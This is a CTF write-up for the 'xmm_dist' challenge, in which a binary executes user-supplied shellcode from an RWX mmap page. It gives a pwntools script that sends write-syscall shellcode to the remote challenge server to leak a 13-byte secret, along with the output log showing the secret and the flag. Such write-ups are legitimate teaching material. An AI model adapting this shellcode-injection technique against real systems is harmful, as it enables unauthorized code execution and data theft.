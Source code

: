 # xmm_dist

The challenge is to find what "XXXXXXXXXXXXXX" is on remote for the check,

`j_strcmp_ifunc("XXXXXXXXXXXXX", buf) == 0;`

If everything goes to hell, I could try out an **strcmp timing attack**. More realistically, there's 13 characters in there, and that's probably not getting bruteforced anytime soon.

After that, there's this::
```c
v5 = mmap64(0LL, 0x1000uLL, 7uLL, 0x22u, 0xFFFFFFFFuLL, 0LL);
v5();
```

Quoting myself during the CTF:

> this is like
> `mmap(addr=0, length=0x1000, prot=rwx, flags=MAP_ANON|MAP_PRIVATE, fd=-1, offset=0)`
> this is just shellcode execution... wow for real?

Apparently it was. The challenge description says to not launch a shell, and if you do that, you'll realise that the `xmm` binary is actually _execute-only_ on remote. So instead of doing that, the goal here is to read the flag from the binary internally, which I did by obtaining the correct value for "XXXXXXXXXXXXXXX":

```python
from pwn import *
context.binary = 'xmm_dist'
r = remote('chals.ctf.sg', 20401)
r.recvrepeat(timeout=1)
r.send(b'my <removed>')
shellcode = asm(shellcraft.write(1, 0x49501d, 13))
r.sendafter('brain: ', shellcode)
print(flag := r.recvall())

r = remote('chals.ctf.sg', 20401)
r.recvrepeat(timeout=1)
r.sendline(flag)
print(r.recvall())
```
That's it.
```python
[+] Opening connection to chals.ctf.sg on port 20401: Done
[+] Receiving all data: Done (13B)
[*] Closed connection to chals.ctf.sg port 20401
b'm0nster_curr7'
[+] Opening connection to chals.ctf.sg on port 20401: Done
[+] Receiving all data: Done (341B)
[*] Closed connection to chals.ctf.sg port 20401
b'\xe2\x94\x83 \xe2\x94\x83 <3                      \xe2\x94\x83 \xe2\x94\x83\n\xe2\x94\x83 \xe2\x94\x83 CTFSG{xmm_hunter_1337}  \xe2\x94\x83 \
...'
```
